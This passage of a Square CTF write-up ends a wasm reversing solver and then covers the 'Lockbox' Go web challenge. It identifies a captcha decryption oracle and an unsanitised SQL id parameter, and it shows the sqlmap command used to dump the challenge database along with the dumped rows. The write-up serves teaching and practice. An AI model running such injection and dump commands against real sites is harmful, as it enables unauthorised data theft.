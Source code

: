 ```python
            break
        var2 = buffer[(var1*4+256)>>2] * var2
        var1 += 1
    buffer[(i*4+256)>>2] = var2 + 1
    flag += chr(((var2 + 1) ^ ord(buf_128[i])) & 0xFF)
    i += 1
    print(flag)
```

this eventually prints out `Impossible is for the unwilling.`, and entering this into the box gives our flag.

![Solution](inwasmble-3.png)

# <a name="seven"></a>Lockbox (600p) [go, web]

We're given an image with the URL `https://lockbox-6ebc413cec10999c.squarectf.com/?id=3` on it, and the source code to a Golang website for storing time-locked secrets. To upload a secret, you need to enter a time when your message should be decryptable, and a captcha. When you want to read a message, you need to provide both the id and the hmac of the data, and the current server time must be greater than the given timelock time. The crypto and time check alone seem good enough, and there's no glaring vulnerabilities there we can immediately use. (They are using a very bad IV, and not verifying the consistency of all the parameters together, but we can't get to the key or trick the server time into being anything else).

However, the captcha is generated in your session, but instead of giving the letters to you, they give them in an encrypted form. The `/captcha` end-point is able to decrypt this captcha message, and display it to you. So the end-point is basically a decryption oracle. If we can obtain an encrypted message, we can decrypt it with the captcha oracle, and by increasing the width parameter we can see all the letters in the output.

The `id` parameter is also being used directly inside an SQL query with no attempts at sanitation, and exploiting this is trivial. For maximum ease, I just used sqlmap for this, and the final command looked like this

`$ python sqlmap.py -o -u "https://lockbox-6ebc413cec10999c.squarectf.com/?id=3" --random-agent -D primary_app_db -T texts --dump`

```
+----+--------------------------------------------------------------------------------------------------------------------------------------------------------+------------+
| id | data                                                                                                                                                   | lock       |
+----+--------------------------------------------------------------------------------------------------------------------------------------------------------+------------+
| 1  | TIJlneBxX-6sr4kUQdw0idCcoDh-t0lj5fU9e3cgU_gmLOZ96NrvxRe32o0wWrPJsv_66ACUTgPL_ewvHxMvOn2AGZl2opQO15rOjfkiw1lAEzhtK62J2Ce3T-SyzCpzSPSwQM6OdoF9HeZCH_xqFg | 1570492800 |
| 2  | P2HVNdfiXhJVnbjE70yqC2fLS8Cez0bxvfoDfDn5FRo8nAVU_R5ZTblcj5CgLw_qtM_D3zgWElLmeFqIGZwq49kgI-rvlR_tKXmFMVGbkVaTeEy6V0JM9EiRthnlIEjAq_L8Qs9WTBWZ2nzZrs57Mw | 1570665600 |
| 3  | Nw12G_0K_xYt4ZR3mO7cKuc5CFrrszCysLZrLgxhoGcakkjTs7x86DotIiD5fzgSZYK-zX3bWTE-dEJrmPBlgQ                                                                 | 1602288000 |
+----+--------------------------------------------------------------------------------------------------------------------------------------------------------+------------+
```